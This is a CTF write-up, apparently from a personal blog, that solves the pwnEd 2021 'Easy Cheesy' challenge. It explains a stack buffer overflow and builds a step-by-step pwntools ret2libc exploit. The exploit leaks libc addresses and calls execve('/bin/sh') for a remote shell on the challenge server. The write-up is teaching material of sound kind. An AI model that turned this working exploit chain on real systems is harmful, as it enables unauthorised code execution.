

Hey everyone. Today I'll be taking you through how I solved the "Easy Cheesy" challenge during the 2021 pwnEd CTF. This was a really, really fun challenge for me, and I'm really happy I was able to do it.

## Step 1: Reading the source

pwnEd were kind enough to give us the source for this challenge, which can be a big help, especially with some of the more difficult challenges. Here's the file:

```c
#include <stdio.h>
#include <signal.h>
#include <stdlib.h>
#include <unistd.h>

void alarm_handler()
{
    printf("Too slow.\n");
    exit(1);
}

void setup()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[])
{
    setup();
    char buffer[64];
    printf("ROP me baby!\n");
    fgets(buffer, 2048, stdin);
    return 0;
}
```

We can see straight away that the vulnerability is in main(), where fgets() attempts to read 2048 bytes into a 64 byte buffer. We'll go over how this will work in step 3.



We can see that running the program just prompts us for an input, then takes it and returns 0, exiting the program.

## Step 2: Reading the assembly

Once reading the source, we'll take a peek at the assembly, just to see what's going on in there, too. We'll quickly run checksec on the binary too, so we can see what kind of protections we're up against. 


Full RELRO means that the GOT is unable to be written to, and NX means that our stack will be non executable. This means that unfortunately, we can't just write our exploit to the stack, then jump to it and execute it. But, we'll go over another way of getting what we want out of this program.


Okay, it's as we expected. It enters the function, allocates some space to the stack, prints out the "ROP me baby!" message, takes out input, and then exits.

## Step 3: Explaining the exploit

**If you're familiar with how a buffer overflow works, you can skip this step!**

So, we can write outside of our allocated stack space. How can we leverage this to help solve the challenge? This is a classic example of a **buffer overflow** attack, which is where the program lets us write outside of our allocated space on the stack. But how does that work? To understand this, we'll need to look at how the stack is structured at this point in the program.

When a function is called via the **call** instruction (in this case, the function is main()), two important things happen:

- Firstly, the **return address** is pushed onto the stack. This is the address of the instruction immediately after the call instruction, and this is pushed onto the stack so that when the function is finished, it can pop it back off of the stack, returning the program to the address immediately after the call.
- Secondly, the call instruction changes **RIP** to point to the location of the function that is being called. **RIP is the Instruction Pointer**, and it keeps track of the next instruction to be executed in the program. So when RIP is forcefully changed by the call instruction, it makes the program begin executing instructions from a different location in memory. In the image below, the call instruction will push the immediate next instruction onto the stack, then change RIP to be where puts() is instead, so that it executes all of the instructions that puts() needs. Once puts() is done executing, it pops the saved return address off of the stack and into the RIP register, returning the flow of the program to the function that called puts()

    

    An example of the call instruction. This will call the puts() function. So, the very next instruction is 0x0040127f, meaning that this value will be the "return address" which gets pushed onto the stack, or in other words, where the program will jump back to once puts() finishes executing.

This means that when we enter a function, it's return address is saved on the stack. We also know that we're able to write 2048 bytes into a 64 byte buffer. But where is that buffer? It just so happens to also be stored on the stack. If the program has allocated us 64 bytes of space, but we instead give it 72 bytes of input, where do those 8 bytes go? Well, they just end up outside of the allocated space, which means they're written onto the stack, possibly overwriting things that are already there. 

Let's bring it all together. If we know that the return address is stored on the stack, and we know that the return address controls the flow of the program, and then we can also write values to the stack... You might see where this is going. Writing outside of our allocated stack space will overwrite values that are already on the stack, meaning we can overwrite the return address of the function we're in. Once this address has been overwritten, the function will attempt to exit normally, by performing the `ret` instruction.

 `ret` is really simple: It just does `pop rip`, which will take whatever is on top of the stack, and place it into the RIP register. At this point in the function, the item on top of the stack will be the return address of the function. Once that value is placed into RIP, then the program flow is redirected back to wherever that address is. Now we know three things:

1. The return address is stored on the stack. This controls where the program goes once the function is finished
2. This address can be overwritten if the user is able to write data outside of their allocated stack space. If the user wants to change the return address, all they need to do is overflow the buffer, then find out where the return address is on the stack, and then change it to whatever they want. 
3. We can write outside of our allocated stack space, meaning we can do what we just mentioned -  control the return address on the stack by overwriting it with whatever we want. 

So if we structure our payload in such a way that we overflow the buffer, then overwrite the return address with whatever we want, we should be able to control the program flow and make it jump around as we wish

## Step 4: Figuring out our initial payload length

Now that we know what the binary is doing, we can begin to craft a really simple, proof-of-concept payload. We're going to do the following things:

1. Overflow the buffer by 16 bytes in order to see if we segfault
2. Create a payload that will simply overwrite RIP with a new value
3. Send the payload and see if we change the program flow

We're overflowing by 16 bytes initially because of the way the stack is structured at this point in time. After overflowing the buffer, the very next thing on the stack is the previous stack pointer, which we're going to overwrite. And then, immediately after this, there's our 8 byte **return address**, which is what we want to control in order to change the program flow. Let's see if we changed the address of RIP. If we did, it would have changed to AAAAAAAA, or, 0x4141414141414141, where 0x41 is A in hex. If the program tries to jump to this address, it's probably not allowed to go there, so the program will segfault. This is the Kernel's way of telling the program that it's gone somewhere it's not meant to go, so it kills the program.


Okay, it segfaults at 80 A's....

It looks like we did change RIP, because the program segfaults.

So now I'll whip up a small proof of concept using pwntools, which is a really handy Python library. This will send a payload of 72 A's, followed by the address of main(). This should make the program jump back to the main function instead of exiting normally.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

#We can get addresses out of binaries really easily using pwntools "symbols".symbols["main] will give us the entrypoint for main
main = p64(context.symbols["main"]) #p64 will pack the address of main into a 64bit address
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

payload = junk + main

cheese.sendline(payload)
cheese.interactive()
```


Running the POC 

Annnnd it works! We know it worked, because the prompt from main gets sent to us twice! This means that main() ran once, had it's RIP overwritten to point back to itself, and then ran again because of that. Now we're onto the next step.

## Step 5: Talking gadgets

**If you're familiar with how gadgets work, you can skip this step!**

Now is probably a good time to talk about gadgets. Gadgets are small groups of assembly instructions that are already present in the binary, and they perform really cool operations. Let's take a look at one of the simplest, most important gadgets: `pop rdi; ret`.

This gadget is fairly straightforward. If we jump to this instruction in memory, it will do the following things:

1. `pop` the item on top of the stack into the RDI register
2. `ret` will perform `pop rip`, which will return the program to whatever address is now on top of the stack. 

So if our stack looks like this:

> Address of pop rdi; ret

> item1

> Address of main()

And we hit a `ret` instruction somewhere (say, at the end of a function?), then the initial `ret` will perform `pop rip`, forcing the program to jump to the address on top of the stack, which is the address of our `pop rdi` gadget. Now the stack looks like this:

> item1

> Address of main()

So when `pop rdi` executes, it will take whatever is on top of the stack, and place it into the RDI register. This means that item1 ends up in the RDI register

Finally, we're about to hit the `ret` part of the gadget: This will take whatever is on top of the stack and place it into RIP, returning the program to that address in memory to continue executing. At this point in time, the stack looks like this:

> Address of main()

So the `ret` takes the address of main and pops it into RIP, returning control to main. What this accomplishes is **setting the value of a register**, which is really useful in 64bit binary exploitation. **This is because function arguments are controlled via the registers.** So if we can use this technique to control registers, and we can also make the program jump to functions and execute them, we can do really cool things. If we set RDI to = "/bin/sh", and then we called the system() function, system()'s only argument would be "/bin/sh", which would spawn a shell for us and give us remote code execution. You can now see why gadgets are so powerful, and how we can leverage them to give us code execution.

## Step 6: Leaking some addresses

Now that we can jump around in memory, we need to look at the bigger picture. Our end goal is to call `system("/bin/sh")`, or `execve("/bin/sh",NULL,NULL)`. This will get us a shell on the server, allowing us to read the flag. 

But, system() and execve() aren't in the binary, so we'll have to grab them from elsewhere. Fortunately, we can perform a ret2libc attack in order to call them.

In order to call function from libc, we need to find out where they are in memory. Because **ASLR** is enabled on the server, the address of libc will change each time the binary is executed, but the function offsets inside libc will not (more on this in a moment). So each time we run our exploit, we need to leak some functions in order to find out where libc is .

To do this, we'll follow my super cool 4 step plan:

1. Control the RDI register in order to control arg1 of a function
2. Place the GOT address of puts() (it's real address in memory) into RDI
3. Call puts from the PLT, who's arg1 is now the puts() address in the GOT
4. Jump back to main so we don't segfault out and die

If you don't know what the PLT and GOT are, you can read all about them [**here**](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html). But a quick overview for now is that the PLT (Procedure Linkage Table) is where the program looks when it wants to call a function, and the GOT (Global Offset Table) is where the actual address for that function is in memory. Jumping to the PLT address of a function will call it 100% of the time, which is really handy when you want to call functions after jumping around. 

Knowing this, we can make a payload like the following:

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary. I found this using "ropper -f easy_cheesy"
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory                                                            │
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

cheese.interactive()
```


Now we've leaked the address, we can see that the real location of puts ends 5a0 - because libc is always loaded at the start of a page, and pages are 4096 (0x1000) bytes, the base address always has 3 0's at the end, meaning no matter where it's loaded, the offset of puts in this version of libc will end 5a0 , allowing us to identify which libc version they're using

I used [libc.rip](http://libc.rip) to put the offset in and see what it came back with.


That's a lot of possible libc versions, so we can try and narrow it down further. We can use the same technique, except this time, we'll leak the address of fgets(), which has also been included in this binary.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory                                                            │
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

cheese.interactive() #So our connection doesn't die
```

This time, we've leaked puts() and fgets() using the same method


Leaking fgets() real address, which is at offset 7b0

Putting this back into libc.rip, alongside our puts() address, should give us a better idea of which libc version is being used on the remote machine.


That's much better. We've only got 3 to choose from, and the addresses in each one are mostly the same. 


We can see all of the offsets of the commonly used functions that people like to call. Notice how we've got things like system, and str_bin_sh. These are really handy, and you'll see why in a minute

Because we have the leaked address of puts(), and we know the offset of puts in libc, we can do some simple maths to calculate the **base of libc**. This is where libc begins in memory, and if you remember from earlier, the functions are always at the same offsets. So if we know the base, we know where every single function is in libc. Pretty neat! Let's add some more code to calculate libc base.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory                                                            │
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

libc_puts = 0x875a0 #From libc.rip
libc_base = (leaked_puts - libc_puts) #Simple maths
log.info(f'Libc base is: {hex(libc_base)}')

cheese.interactive() #So our connection doesn't die
```


Now that we know the base of libc, getting any function is easy. We just take the base, find the offset of the function we want, and add them together. If system() is at 0x55410, we just add that to libc base to find where it is in our program. Remember that libc base changes each time we run the program, so we need to re-calculate this address each time we run.

We're coming to the end of our exploit now - All we need to do now is grab a function that will get us code execution, and grab an argument to that function that will spawn us a shell. Fortunately, libc has both!


libc has it's own instance of "/bin/sh", which is really handy.

But, we can't see `execve()` on the list of offsets, and this is what I want to use to get a shell. So, the best way to grab the offset is to let pwntools do it. We'll download a copy of the libc we think is running on the box, and then grab `execve()`'s address using pwntools' symbols[] functionality. [libc.rip](http://libc.rip) makes it easy to download a copy of any libc you want.


Once we've got this, we can use pwntools to query it. Let's add some lines to our solve script to do this. We'll also add the address for binsh, since [libc.rip](http://libc.rip) tells us where it is.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

libc_puts = 0x875a0 #From libc.rip
libc_base = (leaked_puts - libc_puts) #Simple maths
log.info(f'Libc base is: {hex(libc_base)}')

execve = libc_base + libc.sym["execve"] #Grab execve's offset from libc and add it to our leaked libc_base, so we can calculate execve's real address.
binsh = libc_base + 0x1b75aa
log.info(f'execve is at: {hex(execve)}')
log.info(f'binsh is at: {hex(binsh)}')

cheese.interactive() #So our connection doesn't die
```


## Step 7: The final payload

It's time to form our ROPchain for the final payload. We've leaked 2 addresses, and from those addresses we've found out which libc version we're running. From there, we've leaked the libc base in memory, which lets us find new functions, in this case, `execve()`, which will let us execute commands on the box. We'll be feeding execve() the `/bin/sh` argument, so that it spawns a shell for us. 

You'll notice that in our final payload, there's a bunch of p64(0)'s, and also a pop_rsi gadget. This is because `execve()` actually expects 3 arguments, not 1. 

We want to call `execve("/bin/sh",NULL,NULL)`, so we need to control more of the function arguments. 64bit calling convention states that function arguments are passed using the following registers: 

`arg1 = RDI`

`arg2 = RSI`

`arg3 = RDX`

`arg4 = RCX`

The list goes on, but we only need to care about the first few. In this case, RDX, arg3 of execve(), was already pointing to NULL when I called the function, so I didn't need to set it to anything. RSI on the other hand, which is arg2 to execve(), was not set to NULL. So I had to grab a gadget to solve this issue. The only one I could find was `pop rsi; pop r15; ret;`. So my ROPchain had to be a little longer in order for me firstly set RSI, then set R15, then ret back to execve(). You can see how impacted the payload, but all I had to do was give RSI and R15 the value of 0.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
pop_rsi = p64(0x401301) #An RSI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

libc_puts = 0x875a0 #From libc.rip
libc_base = (leaked_puts - libc_puts) #Simple maths
log.info(f'Libc base is: {hex(libc_base)}')

execve = libc_base + libc.sym["execve"] #Grab execve's offset from libc and add it to our leaked libc_base, so we can calculate execve's real address.
binsh = libc_base + 0x1b75aa
log.info(f'execve is at: {hex(execve)}')
log.info(f'binsh is at: {hex(binsh)}')

stage_3 = junk + pop_rdi + p64(binsh) + pop_rsi + p64(0) + p64(0) +  p64(execve)
cheese.sendline(stage_3)

cheese.interactive() #So our connection doesn't die
```


And there we have it! Sending that payload to the server grants us a shell as `ctf`, allowing us to read the flag in `/home/ctf/flag.txt`. 

Overall, this was a brilliant challenge, and I found it really fun to solve, with it being very rewarding when it finally worked for me.


This blog post can also be found on Angus' personal site: https://angusgardnerwkc.github.io/2021/03/01/pwnEd_Easy_Cheesy_Writeup.html